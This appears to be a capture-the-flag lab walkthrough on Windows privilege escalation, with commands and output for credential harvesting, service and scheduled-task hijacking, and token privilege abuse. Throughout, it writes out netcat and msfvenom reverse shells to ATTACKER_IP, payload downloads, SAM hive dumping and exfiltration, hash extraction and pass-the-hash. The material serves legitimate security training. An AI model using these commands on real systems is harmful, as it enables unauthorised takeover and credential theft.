


# Windows Privilege Escalation

## Harvesting Passwords from Usual Spots

<span style="font-size: 23px;">**Unattended Windows Installations**</span>

When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. These kinds of installations are referred to as unattended installations as they don't require user interaction. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:

- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml

As part of these files, you might encounter credentials:

```xml
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

<span style="font-size: 23px;">**Powershell History**</span>

Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands. This is useful for repeating commands you have used before quickly. If a user runs a command that includes a password directly as part of the Powershell command line, it can later be retrieved by using the following command from a `cmd.exe` prompt:

```bash
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**Note:** The command above will only work from cmd.exe, as Powershell won't recognize `%userprofile%` as an environment variable. To read the file from Powershell, you'd have to replace `%userprofile%` with `$Env:userprofile`. 

<span style="font-size: 23px;">**Saved Windows Credentials**</span>

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:

`cmdkey /list`

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the `runas` command and the `/savecred` option, as seen below.

`runas /savecred /user:admin cmd.exe`

<span style="font-size: 23px;">**IIS Configuration**</span>

Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called `web.config` and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:

- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

Here is a quick way to find database connection strings on the file:

```bash
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
<span style="font-size: 23px;">**Retrieve Credentials from Software: PuTTY**</span>

PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:

```bash
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
**Note:** Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.

Just as putty stores credentials, any software that stores passwords, including browsers, email clients, FTP clients, SSH clients, VNC software and others, will have methods to recover any passwords the user has saved.

<span style="font-size: 23px;">**Scheduled Tasks**</span>

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Scheduled tasks can be listed from the command line using the `schtasks` command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:

```bash
C:\Users>schtasks /query /tn vulntask /fo list /v

...
Task To Run:                          C:\tasks\schtask.bat
...
Run As User:                          taskusr1
...
```

You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use `icacls`:

```bash
C:\Users>icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat BUILTIN\Users:(I)(F)
                     NT AUTHORITY\SYSTEM:(I)(F)
                     BUILTIN\Administrators:(I)(F)

Successfully processed 1 files; Failed processing 0 files
```
As can be seen in the result, the **BUILTIN\Users** group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, `nc64.exe` can be found on `C:\tools`. Let's change the bat file to spawn a reverse shell:

```bash
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

We then start a listener on the attacker machine on the same port we indicated on our reverse shell: `nc -lvp 4444`

The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:

`schtasks /run /tn vulntask`

```bash
┌──(root㉿kali)-[~]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.214.106] from (UNKNOWN) [10.10.179.255] 49892
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
wprivesc1\taskusr1

C:\Windows\system32>cd /users/taskusr1/Desktop
C:\Users\taskusr1\Desktop>type flag.txt
type flag.txt
THM{TASK_COMPLETED}
```

<span style="font-size: 23px;">**AlwaysInstallElevated**</span>

Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

**Note:** The AlwaysInstallElevated method won't work on this every machine and it's included as information only.

This method requires two registry values to be set. You can query these from the command line using the commands below.

```bash
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using msfvenom, as seen below:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:

`C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

## Abusing Service Misconfigurations

<span style="font-size: 23px;">**Windows Services**</span>

Windows services are managed by the **Service Control Manager** (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.

To better understand the structure of a service, let's check the apphostsvc service configuration with the `sc qc` command:

```bash
C:\Users>sc qc apphostsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: apphostsvc
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k apphost
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Application Host Helper Service
        DEPENDENCIES       :
        SERVICE_START_NAME : localSystem
```

Here we can see that the associated executable is specified through the **BINARY_PATH_NAME parameter**, and the account used to run the service is shown on the **SERVICE_START_NAME** parameter.

Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges. 

All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`:

A subkey exists for every service in the system. Again, we can see the associated executable on the **ImagePath** value and the account used to start the service on the **ObjectName** value. If a DACL has been configured for the service, it will be stored in a subkey called **Security**. As you have guessed by now, only administrators can modify such registry entries by default.

<span style="font-size: 23px;">**Insecure Permissions on Service Executable**</span>

If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

To understand how this works, let's look at a vulnerability found on Splinterware System Scheduler. To start, we will query the service configuration using `sc`:

```bash
C:\Users>sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: WindowsScheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr1
```
We can see that the service installed by the vulnerable software runs as svcuser1 and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:

```bash
C:\Users>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```
And here we have something interesting. The Everyone group has modify permissions (M) on the service's executable. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.

Let's generate an exe-service payload using msfvenom and serve it through a python webserver:

```bash
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

user@attackerpc$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
We can then pull the payload from Powershell with the following command:
`wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe`

Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:

```bash
C:\Users\thm-unpriv>cd ..

C:\Users>cd ..

C:\>cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1>move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1>move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1>icacls WService.exe /grant Everyone:F
processed file: WService.exe
Successfully processed 1 files; Failed processing 0 files

C:\PROGRA~2\SYSTEM~1>sc stop windowsscheduler

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x3e8

C:\PROGRA~2\SYSTEM~1>sc start windowsscheduler

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 1324
        FLAGS              :

```

We start a reverse listener on our attacker machine:

```bash
┌──(root㉿kali)-[~]
└─# nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.84.60] from (UNKNOWN) [10.10.87.6] 49758
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
wprivesc1\svcusr1 
C:\Windows\system32>cd /Users/svcusr1/Desktop
cd /Users/svcusr1/Desktop

C:\Users\svcusr1\Desktop>type flag.txt
type flag.txt
THM{AT_YOUR_SERVICE}
```

<span style="font-size: 23px;">**Unquoted Service Paths**</span>

When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.

When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.

 If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.

 While this sounds trivial, most of the service executables will be installed under `C:\Program Files` or `C:\Program Files (x86)` by default, which isn't writable by unprivileged users. This prevents any vulnerable service from being exploited. There are exceptions to this rule: - Some installers change the permissions on the installed folders, making the services vulnerable. - An administrator might decide to install the service binaries in a non-default path. If such a path is world-writable, the vulnerability can be exploited.

In our case, the Administrator installed the Disk Sorter binaries under `c:\MyPrograms`. By default, this inherits the permissions of the `C:\` directory, which allows any user to create files and folders in it. We can check this using `icacls`:

```bash
C:\>icacls c:\MyPrograms
c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
              BUILTIN\Administrators:(I)(OI)(CI)(F)
              BUILTIN\Users:(I)(OI)(CI)(RX)
              BUILTIN\Users:(I)(CI)(AD)
              BUILTIN\Users:(I)(CI)(WD)
              CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```
The `BUILTIN\Users` group has **AD** and **WD** privileges, allowing the user to create subdirectories and files, respectively.

The process of creating an exe-service payload with msfvenom and transferring it to the target host is the same as before, so feel free to create the following payload and upload it to the server as before. We will also start a listener to receive the reverse shell when it gets executed:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.84.60 LPORT=4446 -f exe-service -o rev-svc2.exe`

Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to `C:\MyPrograms\Disk.exe`. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:

```bash
C:\Users\thm-unpriv>cd /

C:\>move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
        1 file(s) moved.

C:\>icacls C:\MyPrograms\Disk.exe /grant Everyone:F
processed file: C:\MyPrograms\Disk.exe
Successfully processed 1 files; Failed processing 0 files
```
Once the service gets restarted, your payload should execute:

```bash
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```
As a result, you'll get a reverse shell with svcusr2 privileges:

```bash
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.84.60 LPORT=4446 -f exe-service -o rev-svc2.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: rev-svc2.exe

┌──(root㉿kali)-[~]
└─# nc -lvnp 4446                                                                                        
listening on [any] 4446 ...
connect to [10.10.84.60] from (UNKNOWN) [10.10.87.6] 49858
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd /Users/svcusr2/Desktop
cd /Users/svcusr2/Desktop

C:\Users\svcusr2\Desktop>type flag.txt
type flag.txt
THM{QUOTES_EVERYWHERE}
```
<span style="font-size: 23px;">**Insecure Service Permissions**</span>

You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted. Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.

To check for a service DACL from the command line, you can use [Accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite. 

```bash
C:\tools\AccessChk>accesschk.exe -qlc thmservice

Accesschk v6.14 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

thmservice
  DESCRIPTOR FLAGS:
      [SE_DACL_PRESENT]
      [SE_SACL_PRESENT]
      [SE_SELF_RELATIVE]
  OWNER: NT AUTHORITY\SYSTEM
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [1] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  [2] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\INTERACTIVE
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [3] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SERVICE
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```

Here we can see that the `BUILTIN\Users` group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.

Before changing the service, let's build another exe-service reverse shell and start a listener for it on the attacker's machine:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.84.60 LPORT=4447 -f exe-service -o rev-svc3.exe`

We will then transfer the reverse shell executable to the target machine and store it in `C:\Users\thm-unpriv\rev-svc3.exe`. Feel free to use wget to transfer your executable and move it to the desired location. Remember to grant permissions to Everyone to execute your payload:

`icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F`

To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using sc.exe):

`sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem`

Notice we can use any account to run the service. We chose LocalSystem as it is the highest privileged account available. To trigger our payload, all that rests is restarting the service:

```bash
C:\> sc stop THMService
C:\> sc start THMService
```
And we will receive a shell back in our attacker's machine with SYSTEM privileges:

```bash
┌──(root㉿kali)-[~]
└─# nc -lvnp 4447
listening on [any] 4447 ...
connect to [10.10.84.60] from (UNKNOWN) [10.10.87.6] 49899
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami    
whoami
nt authority\system

C:\Windows\system32>cd /Users/Administrator/Desktop
cd /Users/Administrator/Desktop

C:\Users\Administrator\Desktop>type flag.txt
type flag.txt
THM{INSECURE_SVC_CONFIG}
```

### Abusing dangerous privileges

<span style="font-size: 23px;">**Windows Privileges**</span>

Privileges are rights that an account has to perform specific system-related tasks. These tasks can be as simple as the privilege to shut down the machine up to privileges to bypass some DACL-based access controls.

Each user has a set of assigned privileges that can be checked with the following command:`whoami /priv`

A complete list of available privileges on Windows systems is available [here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants). From an attacker's standpoint, only those privileges that allow us to escalate in the system are of interest. You can find a comprehensive list of exploitable privileges on the [Priv2Admin](https://github.com/gtworek/Priv2Admin) Github project.

<span style="font-size: 23px;">**SeBackup / SeRestore  SeBackup/SeRestore**</span>

The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place. The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.

Having this power, an attacker can trivially escalate privileges on the system by using many techniques. The one we will look at consists of copying the SAM and SYSTEM registry hives to extract the local Administrator's password hash.

we can check our privileges with the following command:

```bash
C:\>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```
To backup the SAM and SYSTEM hashes, we can use the following commands:

```bash
C:\>reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\>reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.
```
This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB or any other available method. For SMB, we can use impacket's `smbserver.py` to start a simple SMB server with a network share in the current directory of our AttackBox:

```bash
user@attackerpc$ mkdir share
user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```
This will create a share named `public` pointing to the `share` directory, which requires the username and password of our current windows session. After this, we can use the `copy` command in our windows machine to transfer both files to our AttackBox: 

```bash
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```
And use impacket to retrieve the users' password hashes:

```bash
root@ip-10-10-187-130:~/share# ls
sam.hive  system.hive
root@ip-10-10-187-130:~/share# python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
THMBackup:1008:aad3b435b51404eeaad3b435b51404ee:6c252027fb2022f5051e854e08023537:::
THMTakeOwnership:1009:aad3b435b51404eeaad3b435b51404ee:0af9b65477395b680b822e0b2c45b93b:::
[*] Cleaning up... 
```

We can finally use the Administrator's hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:

```bash
root@ip-10-10-187-130:~# cd share
root@ip-10-10-187-130:~/share# ls
sam.hive  system.hive
root@ip-10-10-187-130:~/share# python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.224.108
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Requesting shares on 10.10.224.108.....
[*] Found writable share ADMIN$
[*] Uploading file XwSekHcQ.exe
[*] Opening SVCManager on 10.10.224.108.....
[*] Creating service lZkZ on 10.10.224.108.....
[*] Starting service lZkZ.....
[!] Press help for extra shell commands

Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation
'Impacket' is not recognized as an internal or external command,
operable program or batch file.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> cd /Users/Administrator/Desktop

C:\Users\Administrator\Desktop> type flag.txt
THM{SEFLAGPRIVILEGE}
```
<span style="font-size: 23px;">**SeTakeOwnership**</span>

The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges, as we could, for example, search for a service running as SYSTEM and take ownership of the service's executable. For this task, we will be taking a different route, however.

We'll abuse `utilman.exe` to escalate privileges this time. Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:

Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file, replacing it is trivial.

To replace utilman, we will start by taking ownership of it with the following command:

```bash
C:\> takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".
```
After this, we will replace utilman.exe with a copy of cmd.exe:

```bash
C:\Windows\System32\> copy cmd.exe utilman.exe
        1 file(s) copied.
```
To trigger utilman, we will lock our screen from the start button:


And finally, proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges:

```bash
C:\Windows\system32> whoami
nt authority\system
```
<span style="font-size: 23px;">**SeImpersonate / SeAssignPrimaryToken**</span>

These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.

Impersonation is easily understood when you think about how an FTP server works. The FTP server must restrict users to only access the files they should be allowed to see.

Let's assume we have an FTP service running with user `ftp`. Without impersonation, if user Ann logs into the FTP server and tries to access her files, the FTP service would try to access them with its access token rather than Ann's:


There are several reasons why using ftp's token is not the best idea: - For the files to be served correctly, they would need to be accessible to the `ftp` user. In the example above, the FTP service would be able to access Ann's files, but not Bill's files, as the DACL in Bill's files doesn't allow user `ftp`. This adds complexity as we must manually configure specific permissions for each served file/directory. - For the operating system, all files are accessed by user `ftp`, independent of which user is currently logged in to the FTP service. This makes it impossible to delegate the authorisation to the operating system; therefore, the FTP service must implement it. - If the FTP service were compromised at some point, the attacker would immediately gain access to all of the folders to which the `ftp` user has access.

If, on the other hand, the FTP service's user has the SeImpersonate or SeAssignPrimaryToken privilege, all of this is simplified a bit, as the FTP service can temporarily grab the access token of the user logging in and use it to perform any task on their behalf:


Now, if user Ann logs in to the FTP service and given that the ftp user has impersonation privileges, it can borrow Ann's access token and use it to access her files. This way, the files don't need to provide access to user `ftp` in any way, and the operating system handles authorisation. Since the FTP service is impersonating Ann, it won't be able to access Jude's or Bill's files during that session.

As attackers, if we manage to take control of a process with SeImpersonate or SeAssignPrimaryToken privileges, we can impersonate any user connecting and authenticating to that process.

In Windows systems, you will find that the LOCAL SERVICE and NETWORK SERVICE ACCOUNTS already have such privileges. Since these accounts are used to spawn services using restricted accounts, it makes sense to allow them to impersonate connecting users if the service needs. Internet Information Services (IIS) will also create a similar default account called "iis apppool\defaultapppool" for web applications.

To elevate privileges using such accounts, an attacker needs the following: 1. To spawn a process so that users can connect and authenticate to it for impersonation to occur. 2. Find a way to force privileged users to connect and authenticate to the spawned malicious process.

We will use RogueWinRM exploit to accomplish both conditions.

Let's start by assuming we have already compromised a website running on IIS and that we have planted a web shell on the following address:

`http://MACHINE_IP/`

We can use the web shell to check for the assigned privileges of the compromised account and confirm we hold both privileges of interest for this task:


To use RogueWinRM, we first need to upload the exploit to the target machine. For your convenience, this has already been done, and you can find the exploit in the `C:\tools\` folder.

The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service, which is simply a port that exposes a Powershell console to be used remotely through the network. Think of it like SSH, but using Powershell.

If, for some reason, the WinRM service isn't running on the victim server, an attacker can start a fake WinRM service on port 5985 and catch the authentication attempt made by the BITS service when starting. If the attacker has SeImpersonate privileges, he can execute any command on behalf of the connecting user, which is SYSTEM.

Before running the exploit, we'll start a netcat listener to receive a reverse shell on our attacker's machine:

`nc -lvp 4442`

And then, use our web shell to trigger the RogueWinRM exploit using the following command:

`c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"`


**Note:** The exploit may take up to 2 minutes to work, so your browser may appear as unresponsive for a bit. This happens if you run the exploit multiple times as it must wait for the BITS service to stop before starting it again. The BITS service will stop automatically after 2 minutes of starting.

The `-p` parameter specifies the executable to be run by the exploit, which is `nc64.exe` in this case. The `-a` parameter is used to pass arguments to the executable. Since we want nc64 to establish a reverse shell against our attacker machine, the arguments to pass to netcat will be `-e cmd.exe ATTACKER_IP 4442`.

If all was correctly set up, you should expect a shell with SYSTEM privileges:

```bash
user@attackerpc$ nc -lvp 4442
Listening on 0.0.0.0 4442
Connection received on 10.10.175.90 49755
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

